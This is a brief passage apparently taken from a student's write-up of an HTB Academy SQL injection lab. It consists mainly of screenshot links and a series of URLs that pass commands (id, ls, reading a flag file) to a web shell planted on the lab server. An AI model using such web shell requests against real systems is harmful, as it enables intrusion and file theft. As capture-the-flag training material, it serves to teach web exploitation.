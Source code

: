 http://94.237.54.116:55595/shell.php?0=id

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-45.png)

http://94.237.54.116:55595/shell.php?0=ls

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-46.png)

http://94.237.54.116:55595/shell.php?0=ls /var/www/

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-47.png)

http://94.237.54.116:55595/shell.php?0=cat%20/var/www/flag.txt

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-48.png)

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-49.png)
